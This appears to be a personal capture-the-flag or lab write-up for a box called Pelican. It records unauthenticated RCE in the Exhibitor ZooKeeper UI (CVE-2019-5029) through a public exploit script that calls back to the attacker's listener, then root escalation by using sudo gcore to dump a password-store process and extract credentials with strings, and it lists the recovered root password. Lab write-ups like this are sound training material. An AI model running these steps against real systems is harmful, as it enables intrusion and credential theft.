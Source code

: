 # Pelican \[Inter]

## Report

Exhibitor UI for Apache Zookeeper on port 8080 is vulnerable to unauthenticated RCE. User on webshell is able to run gcore as sudo which can dump info on a running process, we see a running process as root for 'password-store' at 513. Extract creds using 'strings'

## Cheatsheet

<pre><code>https://github.com/thehunt1s0n/Exihibitor-RCE?tab=readme-ov-file
<strong>./exploit.sh 192.168.178.98 8080 192.168.45.234 8000
</strong>sudo -l
ps aux [find PID 513 - /usr/bin/password-store]
sudo gcore 513 
strings core.513
</code></pre>

## Loot

### Enumeration

192.168.178.98

Watch for PRINTERS

#### SMB and RPC

No access for guest

```
print$
IPC$
```

{% code title="rpclient works but it shows WIndows privs???" %}
```
SeMachineAccountPrivilege 0:6 (0x0:0x6)
SeTakeOwnershipPrivilege 0:9 (0x0:0x9)
SeBackupPrivilege 0:17 (0x0:0x11)
SeRestorePrivilege 0:18 (0x0:0x12)
SeRemoteShutdownPrivilege 0:24 (0x0:0x18)
SePrintOperatorPrivilege 0:4097 (0x0:0x1001)
SeAddUsersPrivilege 0:4098 (0x0:0x1002)
SeDiskOperatorPrivilege 0:4099 (0x0:0x1003)
SeSecurityPrivilege 0:8 (0x0:0x8)
```
{% endcode %}

#### 631 - IPP (Internet Printing Protocol)

Server: CUPS/2.2 IPP/2.1 \[CUPS v2.2.10]

#### 8080 - Jetty (Not found)

#### 8081 - Zookeeper

4LTR - 4 letter words that return info about apache zookeeper

**stat**

`Zookeeper version: 3.4.6-1569965`&#x20;

**conf**

```
clientPort=2181
dataDir=/opt/zookeeper/version-2
dataLogDir=/zookeeper/data/version-2
tickTime=2000
maxClientCnxns=60
minSessionTimeout=4000
maxSessionTimeout=40000
serverId=0
```

### Attack Vectors

Exhibitor Web Ui 1.7.1 RCE, CVE-2019-5029

### PrivEsc

gcore can be run as SUDO

### Creds

root:ClogKingpinInning731

### Proof

um yeah about that lol
